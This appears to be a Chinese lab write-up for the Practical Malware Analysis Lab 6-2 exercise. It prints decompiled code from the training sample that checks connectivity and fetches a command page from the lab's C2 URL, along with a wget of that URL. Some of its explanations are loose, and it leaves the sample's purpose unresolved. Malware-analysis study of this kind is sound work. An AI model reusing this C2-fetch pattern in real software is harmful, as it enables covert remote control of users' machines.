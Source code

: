# lab6-2

## QUESTION 1

> What operation does the first subroutine called by main perform?

查看 `_main` 的汇编代码：

```
.text:00401130 ; =============== S U B R O U T I N E =======================================
.text:00401130
.text:00401130 ; Attributes: bp-based frame
.text:00401130
.text:00401130 ; int __cdecl main(int argc, const char **argv, const char **envp)
.text:00401130 _main           proc near               ; CODE XREF: start+AFp
.text:00401130
.text:00401130 var_8           = byte ptr -8
.text:00401130 var_4           = dword ptr -4
.text:00401130 argc            = dword ptr  8
.text:00401130 argv            = dword ptr  0Ch
.text:00401130 envp            = dword ptr  10h
.text:00401130
.text:00401130                 push    ebp
.text:00401131                 mov     ebp, esp
.text:00401133                 sub     esp, 8
.text:00401136                 call    sub_401000
......
```

可见这个汇编代码调用的第一个子过程是 `sub_401000`，同样的查看它的伪代码：

```
signed int sub_401000()
{
  signed int result; // eax@2

  if ( InternetGetConnectedState(0, 0) )
  {
    sub_40117F(aSuccessInterne);
    result = 1;
  }
  else
  {
    sub_40117F(aError1_1NoInte);
    result = 0;
  }
  return result;
}
```

这也是一个判断网络连接状态的函数。

## QUESTION 2

> What is the subroutine located at `0x40117F`?

跳转到这个地址之后查看这个子过程的伪代码：

```c
int sub_40117F(const char *a1, ...)
{
  int v1; // edi@1
  int v2; // ebx@1
  va_list va; // [sp+14h] [bp+8h]@1

  va_start(va, a1);
  v1 = _stbuf(&stru_407160);
  v2 = sub_4013A2(&stru_407160, (int)a1, (int)va);
  _ftbuf(v1, &stru_407160);
  return v2;
}
```

这个跟前面一题的 `printf` 内容是类似的。应该也是一个 `printf` 函数。

## QUESTION 3

> What does the second subroutine called by main do?

先找到 `main` 函数的调用的第二个子过程，是在 `.text:401148` 位置调用的函数 `sub_401040`。

```c
char sub_401040()
{
  char result; // al@2
  char Buffer; // [sp+0h] [bp-210h]@3
  char v2; // [sp+1h] [bp-20Fh]@6
  char v3; // [sp+2h] [bp-20Eh]@7
  char v4; // [sp+3h] [bp-20Dh]@8
  char v5; // [sp+4h] [bp-20Ch]@9
  HINTERNET hFile; // [sp+200h] [bp-10h]@1
  HINTERNET hInternet; // [sp+204h] [bp-Ch]@1
  DWORD dwNumberOfBytesRead; // [sp+208h] [bp-8h]@3
  int v9; // [sp+20Ch] [bp-4h]@3

  hInternet = InternetOpenA(szAgent, 0, 0, 0, 0);
  hFile = InternetOpenUrlA(hInternet, szUrl, 0, 0, 0, 0);
  if ( hFile )
  {
    v9 = InternetReadFile(hFile, &Buffer, 0x200u, &dwNumberOfBytesRead);
    if ( v9 )
    {
      if ( Buffer != 60 || v2 != 33 || v3 != 45 || v4 != 45 )
      {
        sub_40117F(aError2_3FailTo);
        result = 0;
      }
      else
      {
        result = v5;
      }
    }
    else
    {
      sub_40117F(aError2_2FailTo);
      InternetCloseHandle(hInternet);
      InternetCloseHandle(hFile);
      result = 0;
    }
  }
  else
  {
    sub_40117F(aError2_1FailTo);
    InternetCloseHandle(hInternet);
    result = 0;
  }
  return result;
}
```

我们逐个分析，对于：

```c
hInternet = InternetOpenA(szAgent, 0, 0, 0, 0);
// szAgent ==> 字符常量 Internet Explorer 7.5/pma
```

这一行代码通过 `Internet Explorer 7.5` 打开了一个浏览器。

对于：

```c
hFile = InternetOpenUrlA(hInternet, szUrl, 0, 0, 0, 0);
// szUrl ==> 字符常量 http://www.practicalmalwareanalysis.com/cc.htm
```

这一行代码在之前打开的浏览器中打开了一个链接 `http://www.practicalmalwareanalysis.com/cc.htm`。

对于：

```c
v9 = InternetReadFile(hFile, &Buffer, 0x200u, &dwNumberOfBytesRead);
```

这一行代码将打开的网页读入变量中。

对于：

```c
sub_40117F(aError2_3FailTo);
// aError2_3FailTo ==> 字符常量 Error 2.3: Fail to get command
......
sub_40117F(aError2_2FailTo);
// aError2_3FailTo ==> 字符常量 Error 2.2: Fail to ReadFile
......
sub_40117F(aError2_1FailTo);
// aError2_1FailTo ==> 字符常量 Error 2.1: Fail to OpenUrl
```

都是用于抛出异常、错误的函数。

**结论**：综上所述，这个函数用于读取 `http://www.practicalmalwareanalysis.com/cc.htm` 的内容，并且将其作为函数的返回结果返回。读取失败会抛出异常。

## QUESTION 4

> What type of code construct is used in this subroutine?

主要是 `if` 语句。

## QUESTION 5

> Are there any network-based indicators for this program?

有。主要有以下三点：

1. 静态分析这个应用程序引用的动态链接库，有调用网络相关的 API 函数；
2. 动态分析这个应用程序，运行这个应用程序将检测到 DNS 请求。
3. 这个应用应用程序的全局变量（字符串）区有 `http://www.practicalmalwareanalysis.com/cc.htm` 这样的字符串。

## QUESTION 6

> What is the purpose of this malware?

我们尝试把网页尝试下载的内容下载下来：

```bash
$ wget http://www.practicalmalwareanalysis.com/cc.htm
--2019-06-05 15:00:49--  http://www.practicalmalwareanalysis.com/cc.htm
Resolving www.practicalmalwareanalysis.com (www.practicalmalwareanalysis.com)... 192.0.78.24, 192.0.78.25
Connecting to www.practicalmalwareanalysis.com (www.practicalmalwareanalysis.com)|192.0.78.24|:80... connected.
HTTP request sent, awaiting response... 301 Moved Permanently
Location: https://www.practicalmalwareanalysis.com/cc.htm [following]   
--2019-06-05 15:00:50--  https://www.practicalmalwareanalysis.com/cc.htm
Connecting to www.practicalmalwareanalysis.com (www.practicalmalwareanalysis.com)|192.0.78.24|:443... connected.
```

一直卡在了这个位置。我们直接用 `Chrome` 访问发现出现了 404 错误。

暂时不清楚这个恶意代码的作用。
